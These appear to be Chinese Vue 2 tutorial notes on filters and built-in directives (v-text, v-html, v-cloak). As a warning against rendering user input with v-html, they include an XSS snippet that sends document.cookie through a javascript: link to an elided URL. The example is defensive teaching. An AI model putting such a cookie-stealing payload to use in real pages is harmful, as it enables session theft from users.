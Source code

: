 1. 过滤器传参：

vm.time 作为**参数**传递给 timeFormatter，且 timeFormatter 的返回值作为插值语法的显示结果，但是**并没有改变原来的数据**。在这里，timeFormatter 可以接受外部参数，第二个参数是 `'yyyy-mm-dd'`，默认第二个参数是 `'yyyy'`。

2. 过滤器能进行串联 `strSlice` 接受 `timeFormatter` 的返回值作为参数。
3. 上述中的 `timeFormatter`、`strSlice` 作为**局部过滤器**，只能用于当前 Vue 实例。
4. 全局过滤器，在 new Vue 之前配置，如将 `strSlice` 作为全局过滤器。

```js
Vue.filter('strSlice',function (val) {
    return val.slice(0,4)
})
```

5. 除了插值语法，配合 v-bind 使用过滤器：

```html
<p :x="time | strSlice"></p>
```

<mark>注意，v-model 中无法使用过滤器。</mark>

### 内置指令

除了 `v-bind`(`:xxx`)，`v-model`，`v-for`，`v-on`(@),`v-if`,`v-else`,`v-show`。

1. v-text
  
```html
<p>你好，{{name}}</p>
<p v-text="name"></p>
```

`{{}}` 与相比 `v-tex` 相比，更灵活，易于字符串的拼接。v-text 无法解析 html 元素。

2. v-html 能够解析 html 元素。但是有安全性问题，如对于浏览器的 Cookie：

```js
//...
data: {
    _html:`<a href="javascript:location.href='https://...?' + document.cookie"></a>`
},
//...
```

`document.cookie` 能携带浏览器当前所有非 `HttpOnly` 的 Cookie。

注意：

- `v-html` 与 `v-text` 一样，会替换掉节点内的所有内容，`{{}}` 不会。
- `v-html` 有安全性问题，一定要造可信的内容上使用 `v-html`，不要用在用户输入的内容上！因为动态渲染 HTML 是非常危险的，容易导致 XSS 攻击。

3. v-cloak

不允许未经解析的模板展示在页面。

```css
<style>
    [v-cloak]{
        display: none;
    }
</style>
```
